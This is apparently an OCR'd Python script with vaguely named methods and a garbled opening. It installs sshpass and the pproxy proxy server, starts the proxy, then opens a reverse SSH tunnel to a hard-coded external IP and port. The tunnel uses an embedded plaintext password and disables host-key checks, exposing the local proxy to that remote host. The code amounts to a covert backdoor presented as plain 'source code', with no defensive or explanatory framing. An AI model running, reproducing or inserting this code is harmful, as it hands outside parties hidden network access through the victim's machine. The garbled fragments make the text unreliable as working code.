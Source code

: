 umber=6655
import threading
import time,os
class low_level_deep_note():
    def __init__(self) -> None:
        pass
    def def_1(self):
        os.popen('apt-get update&&apt-get install sshpass&&pip3 install pproxy&&pproxy').read()
        #apt-rep_and_install sspasfor connect the server and run proxy server ...
    def def_2(self,umber):
        os.popen(f'sshpass -p Rxqje4lbD1SLeojwoz4O ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null forward-user@109.125.177.149 -p 36492 -N -R {umber}:0.0.0.0:8080').read()
    print("All threads have finished.")
low_level_deep_note=low_level_deep_note()
thread1 = threading.Thread(target=low_level_deep_note.def_1)
thread2 = threading.Thread(target=low_level_deep_note.def_2,args=[umber])
thread1.start()
time.sleep(30)
thread2.start()
thread1.join()
thread2.join()
